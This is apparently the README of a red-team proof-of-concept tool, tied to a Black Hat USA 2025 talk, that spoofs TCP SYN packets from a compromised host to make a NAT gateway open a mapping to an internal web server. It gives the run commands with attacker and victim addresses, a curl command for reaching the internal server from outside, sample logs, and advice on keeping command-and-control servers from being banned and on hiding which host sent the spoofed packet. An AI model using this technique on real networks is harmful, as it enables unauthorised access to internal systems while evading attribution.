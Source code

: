 # Simple TCP SYN Spoofing to Trigger NAT Traversal

An easy-as-fxxk tool that opens a temporary DNAT by sending fake TCP SYN packets to create a breakpoint for red teaming under NAT environments!

## Reference

- This is a PoC code for Black Hat USA 2025 Briefing: [From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678) 

## Usage

1. **Know Your Public IP** (example IP: `9.9.9.9`):

2. **Send a Fake TCP SYN to Trigger NAT on the Compromised Device**  
   - NAT public IP: `2.2.2.2`
   - Compromised device internal IP: `192.168.1.2`
   - Internal web server IP: `192.168.1.3:8080`

    ```bash
    python3 main.py -s <next_attack_victim> -sp <next_attack_victim_port> -d <attacker_public_ip> -dp <attacker_port_to_connect>
    sudo python3 main.py -s 192.168.1.3 -sp 8080 -d 2.2.2.2 -dp 55555
    ```

3. **Now you can directly access** `http://192.168.1.3:8080/` **via** `curl http://2.2.2.2:8080/ --local-port 55555`  on `9.9.9.9` only.

4. **Logs from 192.168.1.3:**

    ```
    python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    9.9.9.9 - - [07/Jun/2025 10:10:08] "GET / HTTP/1.1" 200 -
    ```
    > You will see that the logs show requests coming from 9.9.9.9, making it difficult to associate them with 192.168.1.2.

    > The only way to relate them is by dumping packets on the physical port of 192.168.1.2 and finding the fake packet (MAC source can also be spoofed).

## Best Practices
- Use different IP C&C servers for `192.168.1.2` and `192.168.1.3` to prevent `9.9.9.9` from being banned and losing the C&C connection.

## Demo Video
- [YouTube](https://youtu.be/02bOz_GADDI)

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
